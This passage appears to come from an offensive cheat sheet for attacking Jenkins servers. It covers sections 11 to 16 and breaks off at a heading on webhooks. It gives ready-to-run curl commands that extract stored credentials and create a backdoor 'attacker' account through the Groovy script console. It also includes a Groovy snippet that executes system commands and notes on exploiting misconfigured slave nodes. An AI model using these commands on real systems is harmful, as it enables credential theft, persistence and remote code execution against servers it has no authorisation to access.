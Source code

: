 
## 11. Extracting Credentials from Jenkins

- **Extract Stored Credentials:**
    
    ```bash
    curl -u admin:password http://target:8080/jenkins/credentials/store/system/domain/_/
    ```
    

---

## 12. Persistence and Post-Exploitation

- **Create Backdoor User:**
    
    ```bash
    curl -X POST -u admin:password --data-urlencode "script=jenkins.model.Jenkins.instance.securityRealm.createAccount('attacker', 'password')" http://target:8080/jenkins/scriptText
    ```
    

---

## 13. Unauthenticated Exploits (Public Jenkins)

- **Check for Anonymous Access:**
    
    ```bash
    curl http://target:8080/jenkins/
    ```
    

---

## 14. Pipeline Script Injection (Groovy RCE)

```groovy
def cmd = "whoami".execute()
println cmd.text
```

---

## 15. Jenkins Slave Exploitation

- **Misconfigured Slave Nodes:**
    - Check for misconfigured slave nodes.
    - Insecure communication protocols, lack of access control.
    - Exploit misconfigured slaves to gain access to the Jenkins master.

---

## 16. Exploiting Misconfigured Webhooks
